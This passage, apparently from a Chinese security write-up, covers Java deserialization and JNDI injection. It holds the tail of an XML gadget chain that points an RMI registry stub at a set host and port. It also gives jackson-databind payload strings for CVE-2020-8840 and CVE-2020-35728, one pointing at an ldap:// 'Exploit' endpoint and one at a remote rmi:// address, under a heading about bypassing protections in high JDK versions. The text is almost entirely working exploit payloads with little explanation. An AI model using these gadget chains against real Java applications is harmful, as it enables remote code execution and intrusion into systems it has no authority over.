 ```
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.66.152</string>
                                                <int>1089</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.66.152</host>
                                        <port>1089</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### JDK高版本绕过通用与fastjson、weblogic的JNDI注入  
  
1、代码执行 (CVE-2020-8840)  
  
2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2  
  
String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/Exploit\"}]";  
  
2、代码执行 （CVE-2020-35728）  
  
FasterXML jackson-databind 2.x < 2.9.10.8  
  
String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"rmi://47.94.236.117:1099/gtaafz\"}]";  
  
  
  
